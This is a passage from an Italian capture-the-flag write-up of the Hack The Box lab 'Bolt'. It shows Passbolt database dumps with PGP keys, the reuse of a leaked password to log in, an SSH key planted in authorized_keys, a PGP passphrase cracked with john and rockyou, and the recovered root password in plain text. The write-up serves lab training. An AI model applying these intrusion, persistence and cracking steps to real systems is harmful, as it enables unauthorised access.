| secrets               |
| secrets_history       |
| user_agents           |
| users                 |
+-----------------------+
25 rows in set (0.00 sec)    
    #+end_example

*** mysql> select * from gpgkeys\G
    #+begin_example
select * from gpgkeys\G
*************************** 1. row ***************************
         id: 2d9d331a-9c6d-4f7a-a423-27fed47176c9
    user_id: 9d8a0452-53dc-4640-b3a7-9a3d86b0ff90
armored_key: -----BEGIN PGP PUBLIC KEY BLOCK-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

xsBNBGA4GX0BCAD2MdBV19tAu+SWkMJ0BkvGdQrLquHg1olUvvhvIWmmBICr
eA89HnYYKFoOxnCL1yhpArtf379rFTZJDXzbzXlnCvgZzP71MNYo2Pq3l0Zn
syfx3juIg+Fr6YYv7RotnpNaz+xFU+eHVSFRl64o+WhuxETPyJKqpRGGYjrl
WiQQP8oCGSh5ytXqK/XRswETTQEQUTkeWHVU5UV6KlYp+xL0vmu8R9UAkcrK
Go9QusV+v4i3PMsgHexuOFHXVJ5nmyGvVQ5khNtuNHruQ5M3xjsb8FtklIo1
asfbjJETUti0wYf7lOffU3+0win4uDbMDOUJEU1ZV//Z+OZq+ARBWaahABEB
AAHNH0NsYXJrIEdyaXN3b2xkIDxjbGFya0Bib2x0Lmh0Yj7CwI0EEAEIACAF
AmA4GX0GCwkHCAMCBBUICgIEFgIBAAIZAQIbAwIeAQAhCRBY7n73qDZg6hYh
BA0fEAb51vFT6RQogFjufveoNmDqjx8IAI+HW1qYWqFhO5VdgDjZLlyFzQgh
CPMjix05N8U6umsy31m0U8OaDCwN+s0S5DAz0e5OSJEF/gNVM/iTP8Ac+gwo
H2kIEUZ6cPMLgV1kwiGAQUr/Fn0biCmKQo36luQphSdT1Gbv+fOpcrLFh+bZ
EndJIgKdovUrr3eo7gyJhALzrYz9PinypoQPs6t3PXKbRWdhHulQuBZPUavH
2g6knhGnx8P2XGEbELGh2NmmB9K1B9vpjxpGokZGiVXAA00/T4rj22/fXHJO
XXFzSjoIpnPCjBozgeWtiwDwD5zFh4rg7NkcyZFwg2BZo3fFKXBENWlOIy9b
ejRn7ea1iTbK4BLOwE0EYDgZfQEIALhlzquF2jgQJkBFUC0PvpaYBNMtinA5
SiA+rKMs+qhsfJf9whelroGL4znwOw4yI+gCIdiX+qlGyxPD1LXVCHWyaTA3
fiivImGkEXV2pP3CvBjtzsYv4g9rlrXmoOrhwnhJUxcq/0D8HinpbIwQ8euM
jTCfLVCBPOLham/D/j7QLydZ0flA+z3SKJMrbx5MlhlGj2PwxWdOLII7xTol
1B7F5WUz/ILKhCkzSliiRAHJhQNlgZHV3bCHGR1YUDf30pvn9GEwbOE2DdUv
K9Mvu5Ow5PLC+EHv1Ve21bfKTE8sQbkhF7qaxoX3C47DReze7LGidk+DIPJx
Gw2JeW/EukUAEQEAAcLAdgQYAQgACQUCYDgZfQIbDAAhCRBY7n73qDZg6hYh
BA0fEAb51vFT6RQogFjufveoNmDqkwgH/Aup4vqEXUxqciTyIZUDctPY1I2v
dwcMS1J9sjW8UOy3XzkgG2+ysME09fzODTM/zwpGEQf8icUvMOq70NMeUDed
BnnVHlgwgn4W10xh8p6z24yBrU0iwRianGMX9bIzToHkxwhaj8AtQP5cXoZi
x8/MFj+LswTfZDAP10CkgS4L3bsi7nIrh3sHMPjn2RYLIVXffWTDC4TJ2HV5
IadG59FrSdK+n8vXPNPcYUcm1F6ddDGvsxjBNwCX00jDNL3Gp7fPqKQjQCh0
pMIO+51kn9QRJJP/XmJrOw2mTheT20DT26JX/K947oi/pAe8xGHrCKAqWiZ5
AeAgt0l0AiCdPTQ=
=axZz
-----END PGP PUBLIC KEY BLOCK-----

       bits: 2048
        uid: Clark Griswold <clark@bolt.htb>
     key_id: A83660EA
fingerprint: 0D1F1006F9D6F153E914288058EE7EF7A83660EA
       type: RSA
    expires: NULL
key_created: 2021-02-25 21:41:17
    deleted: 0
    created: 2021-02-25 21:41:14
   modified: 2021-02-25 21:41:14
*************************** 2. row ***************************
         id: 929a2417-55d8-41fb-b0ce-b1b49839c5f2
    user_id: 4e184ee6-e436-47fb-91c9-dccb57f250bc
armored_key: -----BEGIN PGP PUBLIC KEY BLOCK-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

xsBNBGA4G2EBCADbpIGoMv+O5sxsbYX3ZhkuikEiIbDL8JRvLX/r1KlhWlTi
fjfUozTU9a0OLuiHUNeEjYIVdcaAR89lVBnYuoneAghZ7eaZuiLz+5gaYczk
cpRETcVDVVMZrLlW4zhA9OXfQY/d4/OXaAjsU9w+8ne0A5I0aygN2OPnEKhU
RNa6PCvADh22J5vD+/RjPrmpnHcUuj+/qtJrS6PyEhY6jgxmeijYZqGkGeWU
+XkmuFNmq6km9pCw+MJGdq0b9yEKOig6/UhGWZCQ7RKU1jzCbFOvcD98YT9a
If70XnI0xNMS4iRVzd2D4zliQx9d6BqEqZDfZhYpWo3NbDqsyGGtbyJlABEB
AAHNHkVkZGllIEpvaG5zb24gPGVkZGllQGJvbHQuaHRiPsLAjQQQAQgAIAUC
YDgbYQYLCQcIAwIEFQgKAgQWAgEAAhkBAhsDAh4BACEJEBwnQaPcO0q9FiEE
30Jrx6Sor1jlDtoOHCdBo9w7Sr35DQf9HZOFYE3yug2TuEJY7q9QfwNrWhfJ
HmOwdM1kCKV5XnBic356DF/ViT3+pcWfIbWT8giYIZ/2qYfAd74S+gMKBim8
wBAH0J7WcnUI+py/zXxapGxBF0ufJtqrHmPaKsNaQVCEV3dDzTqlVRi0vfOD
Cm6kt3E8f8GPYK9Mh21gPjnhoPE1s23NzmBUiDt6wjZ2dOQ2cVagVnf6PyHM
WZLqUm8nQY342t3+AA6SFTw/YpwPPvjtZBBHf95BrSbpCE5Bjar9UyB+14x6
OUcWhkJu7QgySrCwAg2aKIBzsfWovcVTe9Rkpq/ty1tYOklT9kn75D9ttDF4
U8+Qz61kTICf987ATQRgOBthAQgAmlgcw3DqVzEBa5k9djPsUTJWOKVY5uox
oBp6X0H9njR9Ufb2XtmxZUUdV/uhtbnM0lSlNkeNNBX4c/Qny88vfkgb66xc
oOo4q+fNCEZfCmcS2AwMsUlzaPDQjowp4V+mWSc8JXq4GXOd/mrooibtiEdt
vK4pzMdvwGCykFqugyRDLksc1hfDYU+s5R42TNiMdW7OwYAplnOjgExOH8f1
lXVkqbsq5p54TbHe+0SdlfH5pJf4Gfwqj6dQlkSf3DMeEnByxEZX3imeKGrC
UmwLN4NHMeUs5EXuLnufut9aTMhbw/tetTtUXTHFk/zc7EhZDR1d3mkDV83c
tEUh6BuElwARAQABwsB2BBgBCAAJBQJgOBthAhsMACEJEBwnQaPcO0q9FiEE
30Jrx6Sor1jlDtoOHCdBo9w7Sr3+HQf/Qhrj6znyGkLbj9uUv0S1Q5fFx78z
5qEXRe4rvFC3APYE8T5/AzW7XWRJxRxzgDQB5yBRoGEuL49w4/UNwhGUklb8
IOuffRTHMPZxs8qVToKoEL/CRpiFHgoqQ9dJPJx1u5vWAX0AdOMvcCcPfVjc
PyHN73YWejb7Ji82CNtXZ1g9vO7D49rSgLoSNAKghJIkcG+GeAkhoCeU4BjC
/NdSM65Kmps6XOpigRottd7WB+sXpd5wyb+UyptwBsF7AISYycPvStDDQESg
pmGRRi3bQP6jGo1uP/k9wye/WMD0DrQqxch4lqCDk1n7OFIYlCSBOHU0rE/1
tD0sGGFpQMsI+Q==
=+pbw
-----END PGP PUBLIC KEY BLOCK-----

       bits: 2048
        uid: Eddie Johnson <eddie@bolt.htb>
     key_id: DC3B4ABD
fingerprint: DF426BC7A4A8AF58E50EDA0E1C2741A3DC3B4ABD
       type: RSA
    expires: NULL
key_created: 2021-02-25 21:49:21
    deleted: 0
    created: 2021-02-25 21:49:38
   modified: 2021-02-25 21:49:38
2 rows in set (0.00 sec)    
    #+end_example

*** mysql> select * from secrets \G
    #+begin_example
select * from secrets \G
         id: 643a8b12-c42c-4507-8646-2f8712af88f8
    user_id: 4e184ee6-e436-47fb-91c9-dccb57f250bc
resource_id: cd0270db-c83f-4f44-b7ac-76609b397746
       data: -----BEGIN PGP MESSAGE-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

wcBMA/ZcqHmj13/kAQgAkS/2GvYLxglAIQpzFCydAPOj6QwdVV5BR17W5psc
g/ajGlQbkE6wgmpoV7HuyABUjgrNYwZGN7ak2Pkb+/3LZgtpV/PJCAD030kY
pCLSEEzPBiIGQ9VauHpATf8YZnwK1JwO/BQnpJUJV71YOon6PNV71T2zFr3H
oAFbR/wPyF6Lpkwy56u3A2A6lbDb3sRl/SVIj6xtXn+fICeHjvYEm2IrE4Px
l+DjN5Nf4aqxEheWzmJwcyYqTsZLMtw+rnBlLYOaGRaa8nWmcUlMrLYD218R
zyL8zZw0AEo6aOToteDPchiIMqjuExsqjG71CO1ohIIlnlK602+x7/8b7nQp
edLA7wF8tR9g8Tpy+ToQOozGKBy/auqOHO66vA1EKJkYSZzMXxnp45XA38+u
l0/OwtBNuNHreOIH090dHXx69IsyrYXt9dAbFhvbWr6eP/MIgh5I0RkYwGCt
oPeQehKMPkCzyQl6Ren4iKS+F+L207kwqZ+jP8uEn3nauCmm64pcvy/RZJp7
FUlT7Sc0hmZRIRQJ2U9vK2V63Yre0hfAj0f8F50cRR+v+BMLFNJVQ6Ck3Nov
8fG5otsEteRjkc58itOGQ38EsnH3sJ3WuDw8ifeR/+K72r39WiBEiE2WHVey
5nOF6WEnUOz0j0CKoFzQgri9YyK6CZ3519x3amBTgITmKPfgRsMy2OWU/7tY
NdLxO3vh2Eht7tqqpzJwW0CkniTLcfrzP++0cHgAKF2tkTQtLO6QOdpzIH5a
Iebmi/MVUAw3a9J+qeVvjdtvb2fKCSgEYY4ny992ov5nTKSH9Hi1ny2vrBhs
nO9/aqEQ+2tE60QFsa2dbAAn7QKk8VE2B05jBGSLa0H7xQxshwSQYnHaJCE6
TQtOIti4o2sKEAFQnf7RDgpWeugbn/vphihSA984
=P38i
-----END PGP MESSAGE-----

    created: 2021-02-25 21:50:11
   modified: 2021-03-06 15:34:36
1 row in set (0.00 sec)    
    #+end_example
** User flag (Eddie)
   Per ottenere la user flag devo loggare come ~eddie~ utilizzando le
   stesse credenziali per accedere al db di ~passbolt~
   
   #+begin_example
   rT2;jW7<eY8!dX8}pQ8%
   #+end_example

   Una volta loggati possiamo inserire la nostra chiave rsa con
   
   (locale)
   #+begin_example
   ssh-keygen -t rsa -b 2048 -N ""
   #+end_example

   (remoto)
   #+begin_example
cd /home/eddie/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTbhyjs7s605URqnLSDFBbpbZuGXghP8yZFGqie9FaFvGG+OdXNNcHe8pL6ZwRN1mC1l5KCq5og5CyjkV20WyG7O5ULWa85gJgv8WmzBcaBXfq3N75hEw2ndPKQ/8ZL1BUYMb1iOtCNzbPNXLU32S4gsv6ioNJQuZPnSY7kcoLhF8ugN1104b/LCztxWYj8+D4LTZS1blmwbMw2ZHT/j8J81BZam3r3TLHqapNcuAPrTbGnfUQmrK4kxjsxAxIt6UMh6LSOno7hjgsLRtlwhMG1fKcTSfKGJxWiEadCcTBDKM73Skde+ZbfgL8ktJsn+37wncwHn31j5ZxeET7dEzv leo@kali" > authorized_keys
   #+end_example

   (locale)
   #+begin_example
   ssh -i id_rsa eddie@bolt
   #+end_example
** Mail (Eddie)
   #+begin_example
   eddie@bolt:/var/mail$ cat eddie
From clark@bolt.htb  Thu Feb 25 14:20:19 2021
Return-Path: <clark@bolt.htb>
X-Original-To: eddie@bolt.htb
Delivered-To: eddie@bolt.htb
Received: by bolt.htb (Postfix, from userid 1001)
        id DFF264CD; Thu, 25 Feb 2021 14:20:19 -0700 (MST)
Subject: Important!
To: <eddie@bolt.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20210225212019.DFF264CD@bolt.htb>
Date: Thu, 25 Feb 2021 14:20:19 -0700 (MST)
From: Clark Griswold <clark@bolt.htb>

Hey Eddie,

The password management server is up and running.  Go ahead and download the extension to your browser and get logged in.  Be sure to back up your private key because I CANNOT recover it.  Your private key is the only way to recover your account.
Once you're set up you can start importing your passwords.  Please be sure to keep good security in mind - there's a few things I read about in a security whitepaper that are a little concerning...

-Clark
   #+end_example
** Cracking private key password
   La chiave privata trovata nei file di google chrome prima di essere importanta con
   
   #+begin_src sh
gpg --allow-secret-key-import --import private_key.txt    
   #+end_src

   deve essere craccata con john perché presenta una ~passphrase~. A
   tale fine si può eseguire
   
   #+begin_src sh
gpg2john private_key.txt > john_gpg_key
john john_gpg_key --wordlist=~/repos/wordlists/rockyou.txt    
   #+end_src

   Alla fine la password è:
   
   #+begin_example
   merrychristmas
   #+end_example

** Reading message
   Una volta importanta la chiave privata di ~Eddie~ possiamo decifrare il messaggio che ci ha inviato Clark
   
   #+begin_example
leo@kali:~/repos/bolt/pgp$ gpg -d message.pgp 
gpg: encrypted with 2048-bit RSA key, ID F65CA879A3D77FE4, created 2021-02-25
      "Eddie Johnson <eddie@bolt.htb>"
{"password":"Z(2rmxsNW(Z?3=p/9s","description":""}gpg: Signature made Sat 06 Mar 2021 04:33:54 PM CET
gpg:                using RSA key 1C2741A3DC3B4ABD
gpg: Good signature from "Eddie Johnson <eddie@bolt.htb>" [unknown]
gpg: WARNING: This key is not certified with a trusted signature!
gpg:          There is no indication that the signature belongs to the owner.
Primary key fingerprint: DF42 6BC7 A4A8 AF58 E50E  DA0E 1C27 41A3 DC3B 4ABD
   #+end_example
** Root flag
   Per diventare root basta utilizzare la password trovata prima
   
   #+begin_example
   Z(2rmxsNW(Z?3=p/9s
   #+end_example
